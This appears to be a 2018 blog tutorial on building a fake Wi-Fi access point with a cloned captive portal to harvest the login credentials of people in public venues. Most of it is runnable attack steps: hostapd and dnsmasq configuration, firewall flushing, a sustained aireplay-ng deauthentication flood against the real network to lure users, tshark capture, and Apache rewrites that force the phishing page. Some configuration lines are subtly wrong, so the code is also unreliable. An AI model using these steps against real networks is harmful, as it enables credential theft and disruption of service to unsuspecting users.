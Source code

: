 ```yaml
---
layout: post
comments: true
title:  "Building a Fake Access Point and Using a Captive Portal to Get Login Credentials"
date:   2018-12-23 21:26:27
categories: Kali, DHCP, hostapd, DNS, Apache, Wireshark, HTML, Web Server, Penetration Testing
---
```


For this project I will presume that you have already cloned a captive portal of an open business network that you usually would see in airports, hotel lobbies, coffee shops, and other venues that offer free Wi-Fi hot spots. Also, I will presume you have a wireless adapter that supports monitor mode and packet injection with Kali Linux installed (or other penetration testing OS installed). Yayy! Now let's move on to the main course of this documentation.

Below I have documented the process on how to manually create a fake Access Point (AP). However, in order to build a fake AP, one needs to understand the main components of a wifi network. These components are:

1. A wifi card (router) in order to broadcast the signal of an AP. (I will use hostapd tool to broadcast the signal)
2. A DHCP server to give IP addresses to clients that connect to our AP. (I will use dnsmasq tool as a DHCP server)
3. A DNS server to handle DNS requests. (I will use dnsmasq tool as a DNS server)
* dnsmasq tool is rather convenient to use, since it can be used as a DHCP and DNS server at the same time!

* To install hostapd and dnsmasq, type the below command in terminal.  
```shell
apt-get install hostapd dnsmasq
```

1. After installing hostapd and dnsmasq, connect your wireless adapter (ifconfig to confirm this). Once adapter is connected do:
```shell
service network-manager stop
```
(Reason to stop network manager is so that it does not prevent the fake AP from broadcasting a wifi signal)

2. Next, we should enable IP forwarding so that packets can flow through the computer without being dropped. Not only that, we must also delete any IP table rules that might interfere with what we are trying to achieve. Hence, the below commands must be entered in the terminal to clear any firewall rules that might be redirecting packets to somewhere else.
```shell
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain
iptables -P FORWARD ACCEPT
```
(By default there should not be any IP table rules, however to be on the safe side, if a program modifies and adds IP tables rules then the fake AP will fail, hence the following commands are a precaution.)

3. Next, we will configure dnsmasq to be used as a DHCP server and DNS server. Here, copy the below code and save it in a file called dnsmasq.conf
```shell
#Set the wifi interface
interface=wlan0
#Set the ip range that can be given to clients
dhcp-range=10.0.0.10,10.0.0.100,8h
#Set the gateway IP address
dhcp-option=3,10.0.0.1
#Set dns server address
dhcp-option=6,10.0.0.1
#Redirect all requests to 10.0.0.1
address=/#/10.0.0.1
```
(The first line that says interface can be found by doing ifconfig and this interface is the one that you wireless adapter uses. The second line states that the range is from 10 to 100 and each ip can last for 8 hours. The third line states the IP of wlan0, usually the 1st IP is used for the the gateway/router and the same config is used for the fourth line. The fifth line states to redirect any request to router's IP)

4. In terminal type the following command to start DHCP server and DNS server.
```shell
dnsmasq -C /root/Downloads/fake-ap/dnsmasq.conf
```
(Note: make sure you change the above path to where you saved the dnsmasq.conf file)

5. Next, we will configure hostapd to start fake AP, in order to allow people to connect to it. Here, copy the below code and save it in a file called dnsmasq.conf
```shell
#Set wifi interface
interface=wlan0
#Set network name
ssid=FakeAP
#Set channel
channel=1
#Set driver
driver=nl80211
```
(Note: when you set the network name, make sure it has the same name as the captive portal and you can feel free to add a version to it like "FakeAP V2")

6. In terminal type the following command to start hostapd and to begin broadcasting a signal.
```shell
hostapd /root/Downloads/fake-ap/hostapd.conf -B
```
(Here, -B is used so that it will execute the above command in the background. Also, make sure you change the above path to where you saved the hostapd.conf file)

7. Next, we will configure wlan0 (or whatever interface that your running) to have an IP address of 10.0.0.1
```shell
ifconfig wlan0 10.0.0.1 netmask 255.255.255.0
```
(Note: change interface to the one you are using, in my case its wlan0. The reason we use 10.0.0.1 is because this is the ip address that is used by the dnsmasq.conf and all the requests is configured to go to this IP. Here, 255.255.255.0 address is the most common subnet mask used on computers connected to Internet Protocol (IPv4) networks)

8. Start Web server to launch the cloned captive portal. Hence, when the client clicks on the fake AP the captive portal web page is displayed.
```shell
service apache2 start
```

9. In this step, we will sniff and analyze login credentials that the user enters into the cloned captive portal. However, instead of waiting for client to connect to FakeAP we could use a deauthentication attack on the real captive portal network and lure clients into using the FakeAP. Hence, we will run the following deauthentication attack command in terminal.
```shell
aireplay-ng --deauth 100000 -a (mac address of AP) wlan0
```
Note: in order to find mac address of AP use airodump-ng as follows:
    ```shell
    airodump-ng --band a wlan0
    ```
    
10. By continously sending thousand of deauth packets... it will prevent the user from reconnecting back to the portal. Hence, they will be lured into using our fake captive portal. Now, we can start to sniff the login info either by using Ettercap or MITMF, but for this example I will use Tshark. 
```shell
tshark -i wlan0 -w wifisniff.cap
```
(Note: -i wlan0 is the interface used to sniff data which will be our wireless card and -w wifisniff.cap will be where I store all the sniffed data)

Once a client enters the credential, we can analyze the .cap file using Wireshark. Just simply type *wireshark* in terminal and filter out http and search for a POST request. Eventually you should find the clients credentials in the HTML form :)

<br><br>
**Update - Redirecting Requests to Captive Portal Login Page**

When a client first connects to a captive portal the system will send requests to a specific server depending on the system whether it runs on mac OS, Linux or Windows. If the system gets a response it was expecting then it will think that this is a normal network and it wont do anything.
    However, if the clients system does not get a response it was expecting, it will then think that the network is a captive portal and it will proceed to show the client the captive portal login page.

**Solution for the above issue**

1. Requests sent to www. websites have to be redirected to just the domain name (for example, google.com instead of www.google.com). Therefore, in order to achieve this we have to modify the apache configuration file.
To open the configuration file type the following in terminal:
```shell
leafpad /etc/apache2/sites-enabled/000-default.conf
```
(Note: I am using leafpad text editor to open the configuration file... feel free to use another text editor.)

2. In order to delete just the www part, we need to use rewrite rules to redirect www to just the domain name. In this case we will add a directory tag at the bottom of the configuration file.
    ```shell
    <Directory "/var/www/html">  <!-- /var/www/html is the location of where my website is stored-->
        RewriteEngine On         <!--enables rewrite engine-->
        RewriteBase /            <!--rewrite base is in web root-->
        RewriteCond %{HTTP_HOST} ^www\.(.*)$ [nc]   <!--rewrite condition works based on Regex-->
        RewriteRule ^(.*)$ http://%1/$1 [R=301,L]
    </Directory>
    ```
(Note: paste the above code, save and close text editor)

3. Restart apache web server in terminal.
```shell
service apache2 restart
```

4. After restarting web server and if you test out the FakeAP network, you will notice a web browser pop up. However, this browser will show a 404 error saying "Not Found" (the reason why a 404 error is showed is because the url is altered by the the system OS.) To fix this, we will configure the web server so that if a file is not found it will redirect the person to the home page. In our case it would be to redirect a 404 error to the cloned captive portal login page. So in terminal type the following command and feel free to use your preferred text editor:
```shell
leafpad /etc/apache2/sites-enabled/000-default.conf
```

5. On the top of the configuration file type in the following:
```html
ErrorDocument 404 /
```
(Note: Here / is used to redirect to web root) Don't close the text editor just yet... see next step!

6. Also, just to be on the safe side at the bottom of the configuration file inside the <Directory> tag we will put the following rewrite rules. This step is the same as the above step but it is used to make sure that it works with any smart phone.
```html
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteCond ^(.*)$ / [L,QSA]
```

7. Restart apache web server in terminal. Now, your page should pop up in a web browser when a client clicks on the FakeAP network.
```shell
service apache2 restart
```    
